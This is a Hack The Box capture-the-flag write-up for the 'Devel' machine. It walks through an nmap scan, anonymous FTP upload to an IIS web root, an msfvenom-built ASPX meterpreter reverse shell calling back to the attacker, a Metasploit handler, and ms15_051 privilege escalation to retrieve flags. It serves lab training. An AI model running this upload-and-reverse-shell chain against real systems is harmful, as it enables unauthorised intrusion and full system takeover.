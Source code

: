 # Hack The Box - Devel Writeup 6/7/2025

## 1. Initial Scan

**Command:**

```bash
nmap -sV -sC TARGET
```

**Results:**

| Port | State | Service | Version                 | Notes                                                                      |
| ---- | ----- | ------- | ----------------------- | -------------------------------------------------------------------------- |
| 21   | open  | ftp     | Microsoft ftpd          | Anonymous login allowed; contains files like `iisstart.htm`, `welcome.png` |
| 80   | open  | http    | Microsoft IIS httpd 7.5 | `http-title`: IIS7; `TRACE` method enabled                                 |

**Service Info:**
OS: Windows
CPE: `cpe:/o:microsoft:windows`

---

## 2. Enumeration

* Navigated to the web server at `http://TARGET` → Default IIS page
* Discovered anonymous FTP login allowed from Nmap
* Logged in via FTP:

  ```bash
  ftp TARGET
  Username: anonymous
  Password: (blank)
  ```
* Successfully uploaded a test file:

  ```bash
  put test.txt
  ```
* Verified the upload at:

  ```
  http://TARGET/test.txt
  ```

---

## 3. Exploitation

**Payload Creation with `msfvenom`:**

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f aspx -o payload.aspx
```

* Explanation:

  * `-p`: Payload
  * `-f`: Output format (`aspx` for ASP.NET)
  * `-o`: Output file
  * `tun0`: VPN interface

* Uploaded `payload.aspx` via FTP

* Started Metasploit:

  ```bash
  use exploit/multi/handler
  set payload windows/meterpreter/reverse_tcp
  set LHOST tun0
  set LPORT 4444
  run
  ```

* Triggered payload:

  ```
  http://TARGET/payload.aspx
  ```

* Verified access:

  ```bash
  getuid
  sysinfo
  pwd
  ```

---

## 4. Post-Exploitation

**Privilege Escalation with Metasploit:**

* Searched for local exploits:

  ```bash
  run post/multi/recon/local_exploit_suggester
  ```

* Chose exploit (this is a known privilege escalation exploit):

  ```
  windows/local/ms15_051_client_copy_image
  ```

* Steps:

  1. Background current session
  2. Use exploit module:

     ```bash
     use exploit/windows/local/ms15_051_client_copy_image
     ```
  3. Check session ID:

     ```bash
     sessions
     ```
  4. Set required options:

     ```bash
     set SESSION <id>
     set LHOST <your-ip>
     run
     ```

* Verified elevated privileges:

  ```bash
  getuid
  ```

* Retrieved flags:

  * User flag: `C:\Users\babus\Desktop\user.txt`
  * Root flag: `C:\Users\Administrator\Desktop\root.txt`

---

## 📚 References

* [CVE-2015-1701](https://www.cvedetails.com/cve/CVE-2015-1701/)

---

## 🛠️ Tools Used

* Nmap
* Metasploit
* msfvenom
* FTP client

---

## 🎓 Lessons Learned

* Using an open FTP port to upload payloads to a web server
* Crafting and customizing payloads using `msfvenom`
* Catching reverse shells with `exploit/multi/handler`
* Escalating privileges using known Windows vulnerabilities via Metasploit
